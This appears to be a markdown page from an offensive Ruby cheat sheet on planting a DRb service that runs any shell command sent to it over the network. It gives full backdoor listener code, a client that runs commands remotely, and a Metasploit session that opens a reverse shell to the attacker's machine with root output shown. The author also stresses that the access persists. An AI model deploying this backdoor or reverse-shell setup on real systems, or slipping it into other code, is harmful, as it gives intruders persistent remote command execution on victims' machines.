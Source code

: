 # RCE as a Service
DRb allows Ruby programs to communicate with each other on the same machine or over a network. DRb uses remote method invocation (RMI) to pass commands and data between processes.

## RCE Service 
```ruby
#!/usr/bin/env ruby
require 'drb'

class RShell
   def exec(cmd)
     `#{cmd}`
   end
end

DRb.start_service("druby://0.0.0.0:8080", RShell.new)
DRb.thread.join
```

The `drb` lib supports ACL to prevent/allow particular IP addresses. ex.

```ruby
#!/usr/bin/env ruby
require 'drb'

class RShell
   def exec(cmd)
     `#{cmd}`
   end
end

# Access List
acl = ACL.new(%w{deny all
                allow localhost
                allow 192.168.1.*})
DRb.install_acl(acl)
DRb.start_service("druby://0.0.0.0:8080", RShell.new)
DRb.thread.join
```


## Client 

```ruby
rshell = DRbObject.new_with_uri("druby://192.168.0.13:8080")
puts rshell.exec "id"
```

Or you can use metasploit module to get an elegant shell! 

```bash
msf > use exploit/linux/misc/drb_remote_codeexec 
msf exploit(drb_remote_codeexec) > set URI druby://192.168.0.13:8080
uri => druby://192.168.0.13:8080
msf exploit(drb_remote_codeexec) > exploit 

[*] Started reverse double handler
[*] trying to exploit instance_eval
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo UAR3ld0Uqnc03yNy;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket A
[*] A: "UAR3ld0Uqnc03yNy\r\n"
[*] Matching...
[*] B is input...
[*] Command shell session 2 opened (192.168.0.18:4444 -> 192.168.0.13:57811) at 2015-12-24 01:11:30 +0300

pwd
/root
id
uid=0(root) gid=0(root) groups=0(root)
```
As you can see, even you loose the session you can connect again and again; it's a service, remember? 


Note: For using metasploit module *only*, you don't need even the RShell class. You'll need the following on the target side.

```ruby
#!/usr/bin/env ruby
require 'drb'
DRb.start_service("druby://0.0.0.0:8080", []).thread.join
```

I recommend to use the first code in case metasploit is not available.